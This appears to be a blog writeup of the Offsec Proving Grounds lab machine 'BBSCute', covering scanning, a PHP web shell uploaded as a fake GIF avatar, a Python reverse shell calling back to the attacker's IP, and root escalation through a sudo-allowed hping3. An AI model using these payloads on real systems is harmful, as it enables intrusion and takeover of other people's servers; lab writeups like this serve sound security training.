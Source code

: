 ```yaml
---
title: "Proving grounds Play: BBSCute"
layout: post
date: 2023-09-30 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
995/tcp open  ssl/pop3 Courier pop3d
```

## 80/tcp - open  http - Apache httpd 2.4.38 ((Debian))

```sh
naveenj@hackerspace:|00:36|~/pg-play/BBSCute$ dirsearch -u http://192.168.151.128/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -r -t 60 --full-url

Target: http://192.168.151.128/

[00:37:05] Starting: 
[00:37:21] 301 -  317B  - http://192.168.151.128/core  ->  http://192.168.151.128/core/     (Added to queue)
[00:37:23] 301 -  317B  - http://192.168.151.128/docs  ->  http://192.168.151.128/docs/     (Added to queue)
[00:37:24] 200 -    1KB - http://192.168.151.128/favicon.ico
[00:37:27] 200 -   10KB - http://192.168.151.128/index.html
[00:37:28] 200 -    6KB - http://192.168.151.128/index.php  #login page
```

## http://192.168.151.128/index.php

![img](/assets/images/CTF/Proving_Grounds/BBSCute/web.png)

Register ➡️ login ➡️ Upload Avatar ➡️ upload reverse shell/php code execution code as avatar.

***Note:*** In order to do a successfull registration the CAPTCHA must be sumitted and which is not available on the registration page. So it can be obtained by viewing the CAPTCHA page source `view-source:http://192.168.151.128/captcha.php`

**Upload.php**

```sh
GIF98;
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```

**Trigger Payload**: `http://192.168.151.128/uploads/avatar_naveenj_upload.php?cmd=id`

Check the python version using `which python` command the create the reverse shell code.

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.204",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

## Initial Foothold

```sh
naveenj@hackerspace:|01:17|~/pg-play/BBSCute$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.204] from (UNKNOWN) [192.168.151.128] 60944
www-data@cute:/var/www/html/uploads$ 
```

## Privilege Escalation

Enumerate user executable permissions using `sudo -l`.

```sh
www-data@cute:/$ sudo -l    #check executable permissions
sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp    
    www-data@cute:/$ ls -al /usr/sbin/hping3
ls -al /usr/sbin/hping3
-rwsr-sr-x 1 root root 156808 Sep  6  2014 /usr/sbin/hping3
```

The binary can be run as root without password.

```sh
www-data@cute:/$ hping3
hping3
hping3> whoami
whoami
root    #root obtained
hping3> id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
hping3>
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).